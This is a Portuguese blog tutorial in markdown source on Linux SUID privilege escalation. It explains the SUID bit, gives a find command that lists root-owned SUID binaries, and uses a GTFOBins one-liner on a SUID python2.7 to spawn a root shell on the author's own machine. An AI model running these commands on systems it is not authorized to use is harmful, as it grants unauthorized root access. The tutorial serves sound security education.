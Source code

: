 ```yaml
---
title: 'SUID Privilege Escalation'
date: '2020-09-07'
tags: ['hacking', 'privilege-escalation', 'linux']
summary: Privilege escalation é uma vulnerabilidade que permite que o hacker consiga elevar seus privilégios, obtendo acesso à recursos protegidos.
cover_image: https://reddyyz.github.io/images/posts/suid.jpg
draft: false
---
```


Privilege escalation é uma vulnerabilidade que permite que o hacker consiga elevar seus privilégios, obtendo acesso à recursos protegidos.<br/>
Neste artigo, vou explicar e demonstrar como escalonar seus privilégios através do SUID.

<TOCInline toc={props.toc} asDisclosure />

## SUID Privilege Escalation

### O que é o SUID

BIT SUID é uma permissão especial que faz com que quando um arquivo seja executado, este tenha as mesmas permissões do usuário proprietário deste arquivo. O que permite que outros usuários sejam tratados como root (ou algum outro usuário), ao executar o arquivo.

Vamos a um exemplo:

O root é dono de um arquivo que executa o comando passado por argumento, este arquivo tem o bit SUID, e todos os usuários tem permissão de executá-lo. Caso um usuário comum use esse script para executar um comando, esse comando será executado como root devido ao bit SUID.


### Encontrando arquivos com o bit SUID

Agora que já entendemos como funciona o bit SUID, vamos encontrar arquivos com o bit SUID e que o dono seja o root.

Para isso usaremos uma ferramenta que já vem com o linux chamada find, vamos ao comando.
```sh
find / -user root -perm /4000 2>/dev/null
```
<button class="copy" onClick="copy_to_clip2('find / -user root -perm /4000 2>/dev/null')">Copiar comando</button>

Explicando o comando:

Especifica o dono do arquivo `-user root`<br/>
Procura por arquivos com o bit SUID `-perm /4000`<br/>
Esconde os erros `2>/dev/null`

Resultado:

```sh
reddyyz@fsociety~$ find / -user root -perm /4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/chromium/chrome-sandbox
/usr/lib/xorg/Xorg.wrap
/usr/libexec/spice-client-glib-usb-acl-helper
/usr/share/code/chrome-sandbox
/usr/sbin/mount.cifs
/usr/sbin/mount.nfs
/usr/sbin/pppd
/usr/bin/mount
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/python2.7
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/vncserver-x11
/usr/bin/kismet_cap_linux_wifi
/usr/bin/chfn
/usr/bin/bwrap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/kismet_cap_linux_bluetooth
/usr/bin/ntfs-3g
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/kismet_cap_nrf_mousejack
/usr/bin/Xtightvnc
/home/reddyyz/VMWARE/vmware-tools-distrib/lib/bin64/vmware-user-suid-wrapper
/home/reddyyz/VMWARE/vmware-tools-distrib/lib/bin32/vmware-user-suid-wrapper
```
Esses são todos os arquivos com permissão SUID que o dono é o root.

### Encontrando e explorando um privilege escalation

Olhando esses arquivos, um que chama atenção é o `/usr/bin/python2.7`.<br/>
Vamos verficiar se existe algum exploit conhecido para o python no [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid), site com várias formas de privilege escalation.

![GTFOBins Python](/static/images/gtfobins-python.PNG)

Encontramos uma forma de escalar nossos privilégios!<br/>
Vamos executar o comando `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

```sh
reddyyz@fsociety:~$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
# 
```
<button class="copy" onClick="document.get">Copiar comando</button>

Conseguimos escalar nossos privilégios com sucesso para root!